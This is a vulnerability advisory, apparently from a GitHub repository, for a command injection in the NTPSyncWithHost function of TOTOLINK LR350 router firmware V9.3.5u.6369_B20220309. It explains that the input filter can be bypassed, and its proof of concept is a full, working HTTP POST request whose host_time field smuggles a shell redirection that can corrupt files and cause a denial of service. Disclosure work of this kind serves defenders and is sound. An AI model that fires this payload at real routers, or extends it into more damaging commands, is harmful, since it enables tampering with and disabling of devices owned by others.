

# TOTOLINK LR350 V9.3.5u.6369_B20220309 command injection

### Product Information

Product: TOTOLINK LR350  Firmware Version: V9.3.5u.6369_B20220309  Manufacturer's website information：https://www.totolink.net/ 

Firmware download address ：https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/231/ids/36.html

### Analysis

TOTOLINK LR350 V9.3.5u.6369_B20220309 were discovered to contain a command injection vulnerability in the **NTPSyncWithHost** function via the **host_time** parameter. 

The Validity_check function checks the user's packet data, but it is only valid for a specific string and can be bypassed with an unspecified string.

For example, redirections (>, <) can corrupt critical files inside the filesystem, which can lead to a DoS.



### POC

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 108
Origin: http://192.168.0.1
Connection: close

{"topicurl":"NTPSyncWithHost","verify":"0","host_time":"2024' > test'"}
```

